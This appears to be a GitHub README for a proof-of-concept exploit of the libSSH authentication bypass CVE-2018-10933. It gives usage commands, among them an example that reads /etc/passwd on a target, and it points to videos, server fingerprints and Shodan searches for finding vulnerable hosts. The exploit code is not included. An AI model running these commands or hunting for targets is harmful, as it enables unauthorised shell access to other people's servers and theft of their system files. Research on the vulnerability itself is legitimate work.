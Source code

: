 # libSSH-Authentication-Bypass
Spawn to shell without any credentials by using CVE-2018-10933

Exploit-DB : https://www.exploit-db.com/exploits/45638

Information about CVE-2018-10933 by libSSH : https://www.libssh.org/security/advisories/CVE-2018-10933.txt

Bugfix Release by libSSH : https://www.libssh.org/2018/10/16/libssh-0-8-4-and-0-7-6-security-and-bugfix-release/

### Usage
```
// If paramiko==2.0.8 doesn't works try : pip install paramiko==2.4.2

pip install -r requirements.txt
python libsshauthbypass.py --help

Example:
python libsshauthbypass.py --host 0.0.0.0 --port 22 --command "cat /etc/passwd" --logfile newlogfile.log
```

## Youtube videos that shows how to exploit libSSH by using this PoC (Proof Of Concept) 
[PoC_1](https://www.youtube.com/watch?v=2mBNS2vxSIU)

[PoC_2](https://www.youtube.com/watch?v=ZSWQjmfcn4g)


## Find the right server with these fingerprints:
https://gist.github.com/0x4D31/35ddb0322530414bbb4c3288292749cc

## Check the version of server that you trying to bypass with testversionofserver.py
If output is 0.7.5, 0.6.*, or lowest then the server is vulnerable.

If isn't then it's probably patched, truncated or not using libSSH.

## Shodan.io libSSH
( 22 Port is default, other ports like (2222, 3333, 4444) might be including libSSH )

![](https://i.imgur.com/SWEfcGR.png)
